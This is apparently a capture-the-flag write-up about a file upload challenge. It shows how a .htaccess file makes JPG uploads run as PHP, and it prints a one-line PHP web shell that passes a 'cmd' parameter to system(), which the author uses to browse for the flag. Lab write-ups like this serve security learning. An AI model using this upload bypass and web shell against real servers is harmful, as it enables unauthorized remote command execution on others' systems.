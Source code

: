 # Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

![i2](13.jpg)

After uploading an image, we see it in uploads/nameofthefile.jpg

![i2](14.jpg)

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`
<?php
if(isset($_GET["cmd"])) 
        system($_GET["cmd"]);
?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
